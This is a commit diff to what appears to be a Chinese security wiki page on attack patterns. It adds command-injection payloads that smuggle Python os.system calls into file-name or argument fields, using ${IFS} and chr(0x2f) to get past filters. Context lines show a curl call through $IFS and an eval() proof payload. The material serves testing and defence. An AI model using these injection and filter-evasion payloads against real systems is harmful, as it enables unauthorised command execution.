

Before and after one commit to islibra/wiki, an MkDocs documentation site: the page built from docs/security/attack_pattern.md, in a window 1280 px wide and 900 px high, scrolled down 12561 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update attack_pattern.md

```diff
--- a/docs/security/attack_pattern.md
+++ b/docs/security/attack_pattern.md
@@ -572,6 +572,11 @@ public interface UserMapper {
     1. `/`:
         1. 在环境中截取, 如当前路径: `xxx;cc=$(pwd);ff=${cc:0:1};mkdir $(ff)tmp$(ff)hackfile;`
         1. 调用python库函数: `x;python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\";1.tar.gz`
+            1. 调用python命令行执行python脚本：`python -c "print('abc')"` 或 `python -c "print('ab""cd')"` 或 `python -c "print('ab"''"cd')"` 或 `python -c "print('ab"'xxx'"cd')"`
+            2. python脚本执行shell命令：`python -c "__import__('os').system('touch /tmp/hackfile')"` 或 `python -c "getattr(__import__('os'),'system')('touch /tmp/hackfile')"`
+            3. 替换空格：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"/tmp/hackfile')"`
+            4. 替换斜杠：`python${IFS}-c${IFS}"getattr(__import__('os'),'system')('touch"'${IFS}'"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')"`
+            5. 在请求中将双引号反转义：`python${IFS}-c${IFS}\"getattr(__import__('os'),'system')('touch\"'${IFS}'\"'+chr(0x2f)+'tmp'+chr(0x2f)+'hackfile')\"`
 
     1. 空格: 使用特殊变量替换: `$ a=$(curl$IFS"http://10.74.201.219:8888/")`
     1. `;`: 使用十六进制替换: `a=$'\x3b'; echo $a`, 这种方式会被当做字符串来执行
@@ -684,7 +689,8 @@ public class OSi {
 
 #### Python
 
-调用`eval()`, 验证POC: `__import__(%27os%27).system(%27touch%20/tmp/hackkk.sh%27)`
+1. 调用`eval()`, 验证POC: `__import__(%27os%27).system(%27touch%20/tmp/hackkk.sh%27)`
+1. 自定义模块路径`sys.path.append("xxx")`可控, 导入模块名称`__import__("xxx")`可控
 
 ##### 格式化字符串漏洞
 
```
